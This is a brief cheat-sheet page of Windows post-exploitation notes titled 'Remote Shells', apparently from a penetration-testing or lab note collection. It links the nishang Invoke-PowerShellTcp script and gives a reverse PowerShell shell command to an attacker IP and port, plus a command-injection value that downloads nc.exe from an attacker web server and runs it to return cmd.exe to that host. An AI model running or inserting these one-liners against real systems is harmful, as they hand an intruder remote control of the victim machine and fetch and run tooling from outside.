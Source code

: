 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Exploitation
---
```



# Remote Shells

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```

